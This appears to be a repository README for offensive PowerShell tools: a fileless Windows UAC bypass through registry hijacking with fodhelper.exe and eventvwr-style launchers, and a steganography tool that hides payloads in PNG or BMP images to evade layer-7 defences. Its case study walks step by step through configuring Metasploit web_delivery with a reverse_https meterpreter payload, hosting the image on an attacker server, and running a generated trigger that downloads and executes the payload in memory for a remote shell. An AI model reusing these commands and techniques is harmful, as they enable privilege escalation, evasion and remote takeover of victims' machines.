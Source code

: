 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

###Step-to-Step
  1 - Hide a PAYLOAD inside of a image (with a good resolution);
  2 - Store the image on a Webserver that target have access;
  3 - Run the trigger (powershell command line) on the target;
    * The target will download the image to the memory;
    * The payload will be extract on the memory;
    * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
  4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
  1 - Open the msfconsole.
  msfconsole

  2 - Select and configure the web_delivery exploit.
  use exploit/multi/script/web_delivery  
  set windows/meterpreter/reverse_https
  set target 2
  set srvport 80
  set uripath /report
  set LHOST <IPADDRESS>
  set LPORT 443
  exploit

  3 - From your Windows machine download the powershell script from web_delivery.
  iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

  4 - Open the powershell and import the Set-Powerstego.ps1.
  Import-Module Set-Powerstego.ps1

  5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
  Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

  6 - Hide de payload inside the image.
  Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

  7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
  cd imagefolder
  pythom -m SimpleHTTPServer 8080

  8 - From the Windows workstation extract the payload to the disk.
  Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

  Open the file report2 and compare with the file report.  

  9 - Generate a command line to execute the payload on the target.
  Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

  Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
  After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.
